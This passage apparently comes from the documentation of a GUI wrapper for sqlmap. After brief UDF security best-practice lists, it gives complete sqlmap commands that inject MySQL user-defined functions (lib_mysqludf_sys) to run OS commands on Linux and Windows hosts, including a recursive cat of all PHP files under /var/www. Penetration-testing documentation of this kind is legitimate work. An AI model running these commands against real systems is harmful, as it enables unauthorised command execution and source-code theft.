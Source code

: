### UDF Security Best Practices
- **Input validation**: Validate all UDF inputs
- **Privilege checking**: Verify user permissions
- **Audit logging**: Log UDF execution
- **Cleanup**: Remove UDFs after use

### Risk Mitigation
- **Temporary UDFs**: Create and drop UDFs as needed
- **Limited scope**: Restrict UDF capabilities
- **Access control**: Control who can execute UDFs
- **Monitoring**: Monitor UDF usage

## 📝 Usage Examples

### Basic UDF Creation and Execution
```
UDF Drop: ✓ Enabled
Shared Library: /path/to/lib_mysqludf_sys.so
UDF Exec: sys_exec
UDF Args: 'whoami'
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --udf-drop --shared-lib=/path/to/lib_mysqludf_sys.so --udf-exec=sys_exec --udf-args='whoami'
```

### System Information Gathering
```
UDF Exec: sys_eval
UDF Args: 'uname -a && id && whoami'
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/admin.php?id=1" --udf-exec=sys_eval --udf-args='uname -a && id && whoami'
```

### File System Operations via UDF
```
UDF Exec: sys_exec
UDF Args: 'find /var/www -name *.php -exec cat {} \;'
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/files.php?id=1" --udf-exec=sys_exec --udf-args='find /var/www -name *.php -exec cat {} \;'
```

### Windows UDF Operations
```
Shared Library: C:\udf\lib_mysqludf_sys.dll
UDF Exec: sys_exec
UDF Args: 'whoami && whoami /priv'
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/win.php?id=1" --shared-lib=C:\udf\lib_mysqludf_sys.dll --udf-exec=sys_exec --udf-args='whoami && whoami /priv'
```
